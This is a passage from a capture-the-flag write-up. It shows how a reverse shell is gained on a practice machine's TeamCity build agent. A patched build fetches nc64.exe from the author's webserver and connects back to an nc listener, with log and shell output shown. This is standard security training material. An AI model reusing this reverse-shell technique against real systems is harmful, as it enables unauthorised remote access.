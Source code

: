 

I'll save it as `shell.diff`.

With a Python webserver serving `nc64.exe`, and `nc` listening on 443,
I'll start a run with the advanced options:

![](/img/image-20231120155911552.png)

A few seconds after submitting there's a request at the webserver:



    10.10.11.207 - - [20/Nov/2023 16:00:22] "GET /nc64.exe HTTP/1.1" 200 -



Then a shell at `nc` as svc_teamcity:



    oxdf@hacky$ rlwrap nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.207 49367
    Windows PowerShell 
    Copyright (C) Microsoft Corporation. All rights reserved.

    PS C:\TeamCity\buildAgent\work\74c2f03019966b3e> whoami
    coder\svc_teamcity



## Shell as e.black

### Enumeration

#### Home Directories

The home directory for svc_teamcity is basically empty. There are other
users on the box:
